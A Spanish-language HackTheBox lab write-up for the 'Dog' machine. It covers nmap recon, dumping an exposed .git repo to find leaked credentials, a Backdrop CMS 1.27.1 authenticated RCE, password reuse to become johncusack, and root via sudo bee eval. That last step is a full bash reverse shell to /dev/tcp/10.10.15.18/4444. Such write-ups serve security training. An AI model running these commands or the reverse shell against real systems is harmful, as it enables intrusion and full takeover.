>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Dog es una maquina de la plataforma de HackTheBox catalogada como dificultad easy, a la fecha que escribo este writeup, esta marcada como retirada, pero eso no significa que deje de ser interesante, ya que esta muestra el como las malas practicas pueden dejar un sitio web vulnerable y por lo tanto, hacer que un atacante lo comprometa por completo.

---

## Nmap Scan

Empezaremos primeramente con un escaneo de nmap de la siguiente forma:

```bash
❯ nmap -A -sV --min-rate 5000 -T5 -p- 10.10.11.58 -vvv --open -oN scan.txt -Pn
```

El cual nos devuelve el siguiente resultado:




Y como podemos ver, solo existen dos puertos abiertos. El `80 (HTTP)` y el `22 (SSH)`, ambos TCP. Desde el escaneo nos damos cuenta de algo, y es que al parecer existen algunos directorios en el `robots.txt` que estan deshabilitados para los motores de busqueda, y lo que parece ser un repositorio de `GIT`.

Esto es grave porque a traves de alli puede conseguirse todo el codigo de la pagina web y todas las configuraciones y mas. Antes de proceder a "Clonarnos" localmente este repositorio oculto en el servidor, primero echemos un vistazo a la pagina web.

---

## Web Analysis

Vemos lo siguiente al entrar a la web:



Aparentemente todo esta en orden y por lo visto no hay nada grave a simple vista. Revisando la informacion del wappalyzer nos muestra lo siguiente:



Vemos que la pagina web utiliza como CMS a "Backdrop" sin darnos su version exacta. El escaneo tambien confirma que se trata de el CMS "Backdrop", al igual que el footer de la web:

 

(Nmap Scan)


(Website)



Tambien viendo la web, nos encontramos con un login, el cual aparenta ser solo para administración ya que no disponemos de una sección para registrarnos:



Y pues por el momento eso es todo lo que hay por ahora en la web.

## Abusing Git Exposed Repository

Llego la hora de ver lo que contiene el repositorio de git que encontramos expuesto en la web, esto lo haremos con una herramienta llamada [GitHack](https://github.com/OwenChia/githack), la cual se encarga de clonar todo el repositorio visto en la web.

Una vez que la tengamos en nuestra maquina atacante, la ejecutaremos de la siguiente forma a continuacion:

```bash
❯ python3 githack http://10.10.11.58/.git
```

Y automaticamente se empezara a clonar todo el repositorio. No mostrare el resultado aqui porque es **demasiado** largo, pero ya con esto ya deberias de tener todo clonado. Esta herramienta dejara una carpeta llamada `sites` (si es que aun no estaba) junto con el nombre del sitio, o la ip de la cual sacamos este git:

```bash
❯ ls
 build   githack   githack.egg-info   helper   LICENSE   Makefile   MANIFEST.in   README.rst   setup.py   site
❯ ls site
 10.10.11.58
```

Una vez entrando en esa carpeta que nos dejo, vemos lo siguiente:



## Access Website as Tiffany

Tenemos todo el sitio web clonado. Que sigue? Ahora podriamos intentar buscar algo interesante como credenciales viendo primeramente el archivo de configuracion, el cual devuelve la siguiente informacion:



A primera vista vemos unas credenciales filtradas para la DB del sitio, nos guardaremos la pass para mas luego, y veremos ahora si encontramos un usuario valido. Esto lo podemos hacer filtrando por la palabra `@dog` para verificar si existe algun correo que tenga ese dominio (Que por lo general suele ser asi). Esto lo haremos con el siguiente comando:

```bash
❯ grep -ri '@dog' .
```

El cual devuelve la siguiente respuesta:



Perfecto, tenemos las siguientes posibles credenciales:

```vim
user: tiffany
password: BackDropJ2024DS2024
```

Y probandolas en la web nos da lo siguiente:



Accedemos a la web como tiffany

---
## Exploiting the version 1.27.1 of Backdrop for RCE

Como vimos en el `wappalyzer`, la version que se nos muestra en el backdrop es con un '1'. Esto puede ser un punto ciego, pero a la vez no, ya que investigando en la web, rapidamente nos damos cuenta de que existe un CVE para esta version (1.27.1):



En mi caso, usare el POC que ofrece la 3ra web. La cual construye el exploit, lo manda, y nos da una shell (Todo automatizado). Por lo que, una vez que lo tengamos clonado lo ejecutaremos y nos dara una shell (Teniendo en cuenta que es posible estando autenticado, pues es perfecto porque ya disponemos de credenciales validas).

(Screenshot de el GitHub):



(Shell):



Perfecto, tenemos una shell con el servidor, aunque algo basica ya que no podemos hacer mucho ni cambiar de directorio, asi que con esta nos enviaremos una shell de bash de la siguiente forma:



Primero descubrimos que tenemos netcat en el servidor, para posteriormente con ayuda de el comando de reverse shell de netcat de `pentest monkey` mandarnos una mejor shell.

## Access as Johncusack

Una vez que tenemos la shell, ahora deberiamos de hacerla aun mas interactiva, pero como no duraremos mucho aqui, lo que haremos sera primero ejecutar el comando `script /dev/null -c bash` para que se vea mejor y asi trabajar mejor:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@dog:$
```

Mucho mejor, ahora podemos revisar la entrada de `/etc/passwd` grepeando por solo aquellos usuarios que disponen de consola. Hacemos esto porque el archivo de configuracion del servidor es el mismo que el que clonamos, asi que revisemos si podemos reutilizar esta pass con algun otro usuario.

La salida de el comando da esto:

```bash
www-data@dog:/var/www/html$ cat /etc/passwd | grep sh
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
www-data@dog:/var/www/html$ 
```

Bien, tenemos dos usuarios (Curiosamente, tiffany no es usuario de el servidor), primero probemos con jobert si nos da una shell mediante la misma shell que obtuvimos como www-data:

```bash
www-data@dog:/var/www/html$ su jobert
su jobert
Password: BackDropJ2024DS2024

su: Authentication failure
www-data@dog:/var/www/html$ 
```

Y para este no sirvio, probemos con el otro a ver que tal:

```bash
www-data@dog:/var/www/html$ su johncusack
su johncusack
Password: BackDropJ2024DS2024

johncusack@dog:/var/www/html$ 
```

Y bingo. Ahora somos `johncusack`. Entremos por ssh para que sea mejor:

```bash
❯ ssh johncusack@10.10.11.58
johncusack@10.10.11.58's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue 22 Jul 2025 07:29:45 PM UTC

  System load:  0.0               Processes:             238
  Usage of /:   49.7% of 6.32GB   Users logged in:       0
  Memory usage: 24%               IPv4 address for eth0: 10.10.11.58
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

johncusack@dog:~$ 
```

Y ejecutando un `ls` en el directorio de el vemos lo siguiente:

```bash
johncusack@dog:~$ ls
user.txt
johncusack@dog:~$ cat user.txt 
f7388bcc6951********************
johncusack@dog:~$  
```

Tenemos la flag de user :)

---
## Privilege Escalation via bee comand

Ejecutando `sudo -l` vemos la siguiente salida:

```bash
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
johncusack@dog:~$ sudo bee
🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]

Global Options:
 --root
 
 <SNIP>
```

Investigando un poco, vemos que bee es mas bien una utilidad mas que nada para `backdropcms` (El mismo que vimos en la pagina), y leyendo un poco, vemos que con el parametro `eval` somos capaces de ejecutar codigo remoto, asi que como no, aprovecharemos esta funcion para hacernos root de una vez por todas, con el siguiente comando (previamente estando en escucha desde nuestra maquina atacante y asignando el directorio de root en `/var/www/html`, esto porque no se ejecuta directamente sin esto, pero cualquier otro comando si lo hara):

```bash
johncusack@dog:~$ sudo bee --root=/var/www/html/ eval "system('bash -c \'bash -i >& /dev/tcp/10.10.15.18/4444 0>&1\'');"
```

Y nos da de respuesta:

```bash
❯ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.58 41406
root@dog:/var/www/html# whoami
whoami
root
root@dog:/var/www/html# cd /root
cd /root
root@dog:~# ls
ls
root.txt
root@dog:~# cat root.txt
cat root.txt
c02056ad0806********************
root@dog:~#
```

Y asi hemos podido pwnear la maquina.

Espero que hayas aprendido algo nuevo y pasa feliz resto del dia/tarde/noche :))